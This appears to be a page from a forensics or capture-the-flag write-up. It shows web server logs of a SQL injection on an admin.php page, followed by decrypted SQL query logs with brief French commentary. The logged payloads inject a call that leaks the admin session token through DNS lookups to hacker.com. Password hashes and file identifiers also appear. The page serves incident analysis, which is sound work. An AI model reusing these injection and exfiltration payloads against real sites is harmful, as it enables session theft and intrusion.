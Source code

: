 ```
174.10.50.30 - - [17/Jun/2022:21:33:19 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),64,63),'.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:35:19 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf(CONCAT(SUBSTRING((select%20session%20from%20users%20where%20username='admin'),127,63),'.hacker.com'));select%200,NULL,NULL;--https://174.10.50.1/admin.php?limit=10&offset=0);CALL%20exf('endexf.hacker.com'));select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:37:24 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf('hacked.hacker.com');select%200,NULL,NULL;-- HTTP/1.1" 499 0 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:37:29 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf('hacked.hacker.com');select%200,NULL,NULL;-- HTTP/1.1" 499 0 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:37:31 +0200] "GET /admin.php?limit=10&offset=0);CALL%20exf('hacked.hacker.com');select%200,NULL,NULL;-- HTTP/1.1" 200 6236 "-" "Mozilla/0.0 (Windows NT 0.0; Win99; x12) AppleWebKit/007.01 (KHTML, like Gecko) Chrome/01.1.1234.12 Safari/007.01" "-"
174.10.50.30 - - [17/Jun/2022:21:42:29 +0200] "GET /admin.php?limit=5&offset=0 HTTP/1.1" 200 5598 "http://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:42:33 +0200] "GET /admin.php?limit=10&offset=0 HTTP/1.1" 200 6236 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:43:33 +0200] "GET /admin.php?limit=10&offset=0 HTTP/1.1" 200 5917 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:43:58 +0200] "GET /admin.php?limit=10&offset=0 HTTP/1.1" 200 5614 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:44:14 +0200] "POST /admin.php HTTP/1.1" 200 73 "http://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:44:33 +0200] "GET /admin.php?limit=10&offset=0 HTTP/1.1" 200 5933 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:45:30 +0200] "GET /admin.php?download=CR4T0G9U HTTP/1.1" 200 5340 "http://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
```

Les logs des requêtes SQL envoyées sont chiffrées avec un clé qui est en clair sur le code du site, avec un petit script PHP on déchiffre donc les requêtes:

```sql
[17-Jun-2022 03:47:56] - tZFNS8NAEIbv+RVDPeTiYXaz2Y9AELGRgrWtjSBSpOzHBBZsEpqC9N8b66GiCF6c0zDvPPMcpn6YF7BhiC9QV/Pq5hFioPYQm0j7S+jtMLx1+wC36+U9NPGVhgR+qadZta6+0FDCFVwvpucj4yCpxxjqk5Rn+j+k6bJaTJ9X1Sz9bk8tcofMSKa0kT5YHgRlQqlAJBtLuUCOJlDm0JCzOdPBOK0Zep5Lp5FkGLecz53ginGBnhny3LtciTyTSIEFbxT3Voz9qEDpVKOD8oqktIHSZGX3djcUADy5o2MBq26Ih9i1cIFF0n+EbVdi0todlZvxJ5NJEoftKSjZ58L2cOyp/MGzM8/+xL8D

SQL: [100] SELECT identifier, password FROM files
                        WHERE identifier = ? AND password = ?
Sent SQL: [238] SELECT identifier, password FROM files
                        WHERE identifier = 'OENDYPEH' AND password = 'a02b019617896cda2d4e3477dee6fae540209de3b09eba518d9b8810c256b80e6dfaebc5b4271240c19ec2cb5745360ed1dc972ca40ed89606b7f8d7c7e66ade'

[17-Jun-2022 03:48:30] - tZFNS8NAEIbv+yuGesjFw37vbCCI1Khg1bYp9VCkbLMTWLBJaQrSf2+thxZF8OIc532feQ5TTUY5LATnr1CVo3I4gxSp3aUm0fYSNqHv37tthNvp8yM06Y16Br/My305Lc9oKOAKrp9uTkcOC1YdYqiOUqnwP6TZbMjv5vPJPPtuzzA2UntvSSplXaRaa+0UUiQvavLko4jCY+OMWllhhLaWCyOdRm2sV9ysDBfoyJlQ19GLIGKUmteGEEmR1SuPaJT26E0tMUqLHklq63zUJriMjcM2rPscQLIH2ucw7vq0S10LFzxnm8+w7QrO2rCmYnH4yWDAUr88BoX4Kix3+w0VP3hx4sWf+A8=

SQL: [100] SELECT identifier, password FROM files
                        WHERE identifier = ? AND password = ?
Sent SQL: [238] SELECT identifier, password FROM files
                        WHERE identifier = 'TC0GVVQV' AND password = '8df24996e23367dec444738ede91ce9e9d1d198f753b615146601527484569305b50187e75accd91a1dd240c5e88e3e64b9885349895c28d26898e24679d45a7'

[17-Jun-2022 03:57:28] - tZFNS8NAEIbv+yuGesjFw37vbCCI1KhgtR8p9VCkbLMTWLBJaQrSf2+th4oieHGO877PPIeppqMcloLzF6jKUTmcQ4rU7lOTaHcJ29D3b90uwu1s/AhNeqWewS/zfF/Oyi80FHAF10835yPHBauOMVQnqVT4H9JsPhzfLRbTRfbdnmFspPbeklTKuki11toppEhe1OTJRxGFx8YZtbbCCG0tF0Y6jdpYr7hZGy7QkTOhrqMXQcQoNa8NIZIiq9ce0Sjt0ZtaYpQWPZLU1vmoTXAZm4Rd2PQ5gGQPdMhh0vVpn7oWLnjOth9h2xWctWFDxfL4k8GApX51CgrxWVjtD1sqfvDizIs/8e8=
```